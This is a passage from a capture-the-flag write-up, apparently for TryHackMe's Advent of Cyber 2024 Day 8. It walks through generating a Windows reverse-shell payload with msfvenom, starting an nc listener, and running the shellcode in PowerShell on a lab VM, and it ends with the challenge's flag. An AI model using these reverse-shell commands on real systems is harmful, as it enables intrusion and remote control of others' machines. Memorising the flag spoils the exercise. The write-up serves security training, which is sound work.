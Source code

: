# Day 8: Shellcodes of the world, unite!

**Learning Objectives**
- Grasp the fundamentals of writing shellcode
- Generate shellcode for reverse shells
- Executing shellcode with PowerShell

### Generating Shellcode
Let's learn how to generate a shellcode to see what it looks like. To do this, we will use a tool called `msfvenom` to get a reverse shell.  

In the **AttackBox**, open the terminal and enter the command `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell` that will generate the shellcode. Replace the `ATTACKBOX_IP` with the IP of the AttackBox (mine: **10.10.123.115**):
![image](https://github.com/user-attachments/assets/efcef4c5-f2eb-40a0-9032-d6474be9445a)

The command (`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell`) generates a piece of shellcode using `msfvenom`. Here's what each part means:

- `-p windows/x64/shell_reverse_tcp`: The `-p` flag tells `msfvenom` what type of payload to create. `windows/x64/shell_reverse_tcp` specifies that we want a reverse shell for a Windows machine.
- `LHOST=ATTACKBOX_IP`: This is the IP address of the AttackBox. It tells the reverse shell where to connect back to.
- `LPORT=1111`: This is the port number on your machine that will listen for the reverse shell connection. When the target connects back to you, it will use this port (`1111` in this example). You can choose any available port, but it needs to match with what your listener is set to.
- `-f powershell`: This specifies the format for the output. In this case, we want the payload to be in PowerShell format so it can be executed as a script on a Windows machine.

### Time for Some Action - Executing the Shellcode

1. On the **AttackBox**, execute the command `nc -nvlp 1111` to start a listener on port 1111 and wait for an incoming connection. This command opens port 1111 and listens for connections, allowing the AttackBox to receive data once a connection is made.

2. On the **AttackBox**, begin by navigating to the Desktop. Right-click on the Desktop, select Create Document, and then choose Empty File. Open this new file and paste the previously provided PowerShell script code (on [THM](https://tryhackme.com/r/room/adventofcyber2024)) into it.

3. Look for the part labelled `SHELLCODE_PLACEHOLDER` and replace it with the shellcode we previously created with `msfvenom`.

4. Once you've added the shellcode navigate to the attached **VM**, open PowerShell by clicking the PowerShell icon on the taskbar and piece by piece, paste the code from the document you recently created to the Windows PowerShell window.

5. Once you've finished copy-pasting, press Enter.
![image](https://github.com/user-attachments/assets/5c3e434c-307d-45b6-9bbc-dd58e3b844b9)

>[!note]
>If your PowerShell terminal unexpectedly closes, it means your `nc` listener was not reachable, possibly because it was not running or was listening on the wrong port or IP.

6. Once you execute the final line in the PowerShell terminal and press Enter, you will get a reverse shell in the AttackBox, giving you complete access to the computer even if the Windows Defender is enabled.
![image](https://github.com/user-attachments/assets/216eb1f0-860f-4424-aa66-5c75d7e798fe)

7. Now you can issue any command, like issuing `dir`, which will list all the directories.
![image](https://github.com/user-attachments/assets/5d3eced2-9fb4-4754-9818-f6a13659b00f)

### Regaining Access
Let's dive into the story and troubleshoot the issue in this part of the task. Glitch has realised he's no longer receiving incoming connections from his home base. Mayor Malware's minion team seems to have tampered with the shellcode and updated both the IP and port, preventing Glitch from connecting. The correct IP address for Glitch is **10.10.123.115** (AttackBox IP), and the successful connection port should be **4444**.

Can you help Glitch identify and update the shellcode with the correct IP and port to restore the connection and reclaim control?

1. In the **AttackBox** terminal type: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.123.115 LPORT=4444 -f powershell`.
2. Press Enter. This will create a new shellcode.
3. In the **AttackBox**, execute the command `nc -nvlp 4444` to start a listener on port 4444.
4. In a new document copy and paste the PowerShell script on THM, putting the newly created shellcode in.
5. Copy and paste document text into the **VM** PowerShell.
6. Return to AttackBox terminal: we have remote access.
![image](https://github.com/user-attachments/assets/fde7bbb1-7133-47d0-baea-18a7cfebae2c)

### Answers
1. What is the flag value once Glitch gets reverse shell on the digital vault using port 4444? Note: The flag may take around a minute to appear in the **C:\Users\glitch\Desktop** directory. You can view the content of the flag by using the command `type C:\Users\glitch\Desktop\flag.txt` in the AttackBox terminal. **AOC{GOT MY_ACCESS_B@CK007}**.
